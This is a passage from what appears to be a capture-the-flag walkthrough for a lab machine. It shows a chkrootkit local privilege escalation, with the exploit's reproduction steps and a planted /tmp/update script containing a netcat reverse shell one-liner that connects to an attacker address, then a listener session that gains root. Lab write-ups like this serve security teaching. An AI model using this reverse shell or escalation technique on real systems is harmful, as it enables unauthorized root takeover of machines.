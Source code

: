 ### Exploit `chkrootkit`

Here I found privilege escalation exploits.

```bash
searchsploit chkrootkit
---------------------------------------------------- ----------------------------
 Exploit Title                                      |  Path
                                                    | (/usr/share/exploitdb/)
---------------------------------------------------- ----------------------------
Chkrootkit - Local Privilege Escalation.            | exploits/linux/local/38775.
Chkrootkit 0.49 - Local Privilege Escalation        | exploits/linux/local/33899.
---------------------------------------------------- ----------------------------
Shellcodes: No Result
```

Here's the explanation of the exploit.

```
Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.
```

Let's reproduce it.

```bash
amrois@nineveh:/report$ cat /tmp/update
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.36 9001 >/tmp/f



amrois@nineveh:/report$ ls -al /tmp/update
-rwxrwxr-x 1 amrois amrois 92 Feb 24 12:29 /tmp/update
```

Then soon, listener spawns a `root` shell.

```bash
┌──(kali㉿kali)-[~/htb/nineveh]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.43] 33796
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```
